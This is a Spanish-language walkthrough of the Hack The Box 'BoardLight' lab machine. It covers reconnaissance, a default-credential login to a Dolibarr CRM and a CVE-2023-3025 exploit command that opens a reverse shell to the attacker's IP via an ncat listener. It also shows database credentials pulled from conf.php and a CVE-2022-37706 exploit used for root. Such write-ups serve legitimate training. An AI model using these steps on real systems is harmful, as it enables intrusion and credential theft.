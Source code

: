 # BoardLight

✍️ Autor: Hack The Box 🔍 Dificultad: Fácil 📅 Fecha de creación: 25/05/2024

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.11
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.46.25 (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.11
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.48.14.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.11
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.49.33.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga una página de una consultoría de ciberseguridad.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.51.10.png" alt=""><figcaption></figcaption></figure>

Inspeccionamos el código fuente y no vemos nada relevante.&#x20;

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster vhost --domain board.htb -u http://10.10.11.11 \
    -w /usr/local/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \ 
    --append-domain
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.41.24.png" alt=""><figcaption></figcaption></figure>

Hemos descubierto un subdominio por lo que editamos el fichero `/etc/hosts` con el subdominio y la IP.

Con la herramienta Wfuzz vemos los directorios y archivos que contiene la página.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.27.01.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el archivo index.php por lo que realizamos la búsqueda.

```bash
http://crm.board.htb/index.php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.47.17.png" alt=""><figcaption></figcaption></figure>

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.48.51.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

{% embed url="https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-3025" %}

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

```
python3 exploit.py http://crm.board.htb admin admin 10.10.16.13 9001
```

```bash
ncat -l -p 9001
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.04.46.png" alt=""><figcaption></figcaption></figure>

En esta etapa, tras obtener la shell en la máquina objetivo, descubrimos que el flag no se encuentra en esta máquina en particular. En cambio, el objetivo ahora es buscar las credenciales del otro usuario en esta misma máquina que indagando por documentaciones de Dolibarr se llama **Larissa**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.10.33.png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo `conf.php`

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.16.11 (1).png" alt=""><figcaption></figcaption></figure>

Hemos descubierto las credenciales por lo que nos conectamos a través del serivicio **SSH**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.18.27.png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña.

Listamos el contenido que tiene el usuario y descubrimos la flag del usuario.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.20.17.png" alt=""><figcaption></figcaption></figure>

Utilicé LinPEAS, un script diseñado para identificar posibles rutas de escalamiento de privilegios en sistemas operativos Linux, Unix y macOS. Para obtener más información sobre este script, pueden consultar el siguiente enlace: [LinPEAS en GitHub](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh).

Primero, busqué el código del script en GitHub, lo copié y lo guardé en un archivo llamado linpeas.sh en el directorio del usuario Larissa. Para hacer esto, utilicé el editor nano con el siguiente comando:

```bash
nano linpeas.sh
```

Dentro de este archivo, pegué todo el código obtenido de GitHub y lo guardé. Sin embargo, para ejecutar el script, necesitamos otorgarle permisos de ejecución, lo cual se hace con el siguiente comando:

```bash
chmod +x linpeas.sh
```

Luego de esto ejecutamos el script de la siguiente manera:

```
bash linpeas.sh
```

Esperamos a que el script termine su ejecución. Una vez completado, revisamos los archivos de interés. **LinPEAS** realiza un escaneo exhaustivo del sistema para identificar archivos y configuraciones que podrían presentar vulnerabilidades para la escalada de privilegios.

Entre los archivos más relevantes o recurrentes se encuentran los relacionados con Enlightenment. Tras investigar, descubrimos que la **versión 0.23** de **Enlightenment** tiene una vulnerabilidad identificada con el código \[**CVE-2022–37706**]. Además, encontramos que existe un exploit disponible para explotar esta vulnerabilidad que coincide con el exploit que tiene Larissa.

```bash
./exploit.sh
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.35.48.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que tenemos el máximo de los privilegios y al entrar en el directorio del root y al listarlo nos sale la última bandera.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.44.51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.45.32.png" alt=""><figcaption></figcaption></figure>

